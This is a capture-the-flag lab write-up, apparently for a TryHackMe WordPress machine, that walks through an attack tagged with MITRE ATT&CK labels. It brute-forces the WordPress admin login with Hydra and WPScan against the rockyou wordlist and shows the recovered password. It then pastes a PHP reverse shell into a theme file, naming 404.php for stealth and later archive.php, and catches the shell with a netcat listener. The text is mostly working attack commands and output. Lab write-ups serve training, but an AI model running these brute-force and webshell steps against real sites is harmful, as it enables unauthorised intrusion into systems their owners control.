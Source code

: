 #### **Password guess WordPress login using Hydra method (Credential Access: Brute Force: Password Guessing (T1110.001)** <a href="#id-1u5a525ms5bp" id="id-1u5a525ms5bp"></a>

hydra -l admin -P /usr/share/wordlists/rockyou.txt TARGET\_IP http-post-form "/wordpress/wp-login.php:log=^USER^\&pwd=^PASS^\&wp-submit=Log+In\&redirect\_to=http%3A%2F%2FTARGET\_IP%2Fwordpress%2Fwp-admin%2F\&testcookie=1:Error" -T 64 -vV

\[...snip...]

\[80]\[http-post-form] host: 10.10.9.105 login: admin password: my2boys

\[STATUS] attack finished for 10.10.9.105 (waiting for children to complete tests)

1 of 1 target successfully completed, 1 valid password found

#### **Password guess WordPress login using WPscan method (Credential Access: Brute Force: Password Guessing (T1110.001)** <a href="#id-78dhzqpc8eog" id="id-78dhzqpc8eog"></a>

wpscan --url http://TARGET\_IP/blog -U usernames -P /usr/share/wordlists/rockyou.txt

\[...snip...]

\[!] Valid Combinations Found:

\| Username: admin, Password: my2boys

\[...snip...]

#### **Upload reverse shell to WordPress (Privilege Escalation: Exploitation for Privilege Escalation (T1068))** <a href="#h6g51uj6m1j" id="h6g51uj6m1j"></a>

* Appearance > Theme Editor.
* Edit "404.php" from "Theme Files" list.
  * Using this page reduces risk of reverse shell discovery as main theme still functions.
* Copy "php-reverse-shell.php" to working folder.

cp /usr/share/webshells/php/php-reverse-shell.php \~/Desktop/Internal

* Open copy of "php-reverse-shell.php".
* Edit "ip" field.
* Save and close file.
* Copy and paste code from reverse shell to top of "archive.php" file in WordPress.
* "Update File" in WordPress to save changes. **Start netcat listener**

nc -lvnp 1234

**Launch reverse shell**

curl http://internal.thm/wordpress/wp-content/themes/twentyseventeen/archive.php

**Reverse shell caught by listener**

Connection from 10.10.67.166 59196 received!

Linux internal 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86\_64 x86\_64 x86\_64 GNU/Linux
